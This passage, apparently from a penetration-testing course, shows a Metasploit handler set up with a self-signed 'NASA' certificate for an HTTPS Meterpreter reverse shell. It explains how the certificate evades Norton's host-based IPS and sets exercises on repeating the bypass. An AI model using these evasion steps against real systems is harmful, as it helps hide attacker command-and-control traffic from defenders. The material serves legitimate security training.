 ```
msf5 exploit(multi/handler) > set HandlerSSLCert /home/kali/self_cert/nasa.pem
handlersslcert => /home/kali/self_cert/nasa.pem

msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:4443
```

> Listing 9 - Configuring HandlerSSLCert for Meterpreter

Let's re-enable Norton's host-based IPS, reload the web page, and view the certificate in our browser:

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/ids/ede70e9043086e6b4622107d95af6220-ids_nasa_cert.png" alt="Figure 22: Our self signed certificate as seen on the victim"><figcaption><p>Figure 22: Our self signed certificate as seen on the victim</p></figcaption></figure>

Although the browser still complains about the self-signed certificate, our newly-created "NASA" certificate bypassed Norton's IPS. This confirms that Norton was, in fact, flagging Meterpreter's "randomized" certificate field data.

In a real-world engagement, we might consider using more sensibly-customized field data, but regardless of the actual field data, we can use simple changes like this to bypass some IPS software.

This example highlights the shortcomings of signature-based IPS sensors.

**Exercises**

1. Repeat the previous steps to bypass Norton's HIPS sensor.
2. Use the impersonate\_ssl module in Metasploit to bypass Norton HIPS.
3. Norton doesn't block Empire's default HTTPS shell. Why is this? Consider the steps we took in this section to determine the reason.
4. If you own a domain, obtain a valid SSL certificate from Let's Encrypt's free service.

1

(NortonLifeLock Inc., 2020), [https://us.norton.com/360](https://us.norton.com/360) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/bypassing-network-filters-14699/bypassing-network-filters-14856#fnref-local_id_401-1)

2

(Broadcom, 2020), [https://www.broadcom.com/products/cyber-security/endpoint/end-user](https://www.broadcom.com/products/cyber-security/endpoint/end-user) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/bypassing-network-filters-14699/bypassing-network-filters-14856#fnref-local_id_401-2)

3

(Wikipedia, 2020), [https://en.wikipedia.org/wiki/Certificate\_authority](https://en.wikipedia.org/wiki/Certificate_authority) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/bypassing-network-filters-14699/bypassing-network-filters-14856#fnref-local_id_401-3)

4

(Wikipedia, 2020), [https://en.wikipedia.org/wiki/Root\_certificate](https://en.wikipedia.org/wiki/Root_certificate) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/bypassing-network-filters-14699/bypassing-network-filters-14856#fnref-local_id_401-4)

5
